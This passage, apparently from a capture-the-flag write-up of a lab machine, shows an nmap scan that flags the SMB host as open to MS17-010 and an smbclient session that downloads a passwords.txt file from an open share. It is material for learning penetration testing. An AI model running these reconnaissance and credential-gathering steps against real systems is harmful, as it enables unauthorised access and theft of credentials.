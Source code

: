 ```bash

┌──(admin㉿PREDATOR-01)-[~]
└─$ nmap --script smb-vuln* -p 445 10.10.202.251
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-01 12:02 CET
Nmap scan report for relevant.thm (10.10.202.251)
Host is up (0.042s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-054: false

Nmap done: 1 IP address (1 host up) scanned in 12.79 seconds

┌──(admin㉿PREDATOR-01)-[~]
└─$ smbclient //10.10.202.251/nt4wrksv -U admin
Password for [WORKGROUP\admin]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 23:46:04 2020
  ..                                  D        0  Sat Jul 25 23:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020

                7735807 blocks of size 4096. 5126177 blocks available
smb: \> get passwords.txt passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
smb: \>
```
Now we can decode those passwords.


### Cracking the encoded passwords
